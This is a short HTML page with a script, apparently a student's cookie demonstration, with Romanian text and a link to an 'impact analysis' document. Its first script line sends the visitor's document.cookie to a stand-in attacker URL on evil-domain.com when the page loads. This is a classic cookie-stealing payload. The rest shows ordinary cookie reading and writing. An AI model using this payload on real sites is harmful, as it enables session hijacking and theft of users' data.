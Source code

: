 <script> 
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=henrietta"; 
document.cookie = navigator.appVersion;  

const cookieValue = document.cookie .split('; ') .find(row => row.startsWith('test2=')) .split('=')[1]; 

function doOnce() { if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) { alert(document.cookie); 
document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT"; } } 
function resetOnce() { document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT"; } //ES5 
if (document.cookie.split(';').some(function(item) { return item.indexOf('reader=1') >= 0 })) { console.log('The cookie "reader" has "1" for value') } //ES2016 
if (document.cookie.split(';').some((item) => item.includes('reader=1'))) { console.log('The cookie "reader" has "1" for value') } </script> 
<body>
  Bun venit pe pagina cu prajituri!<br>
  <button onclick="doOnce()">Vezi cookies</button><br>
  <button onclick="resetOnce()">Reseteaza buton cu cookie</button><br>
  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/szilagyi_he_henri_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B02175963-161C-4C61-9E55-04E30A59C7D6%7D&file=Analiza%20de%20impact.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1621792338112&ct=1621792338112&wdPreviousSession=0b3ed004-2258-4e6a-bb7d-185826811b79&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD">Acceseaza analiza de impact</a><br>
Szilagyi Henrietta-Andrea
</body>
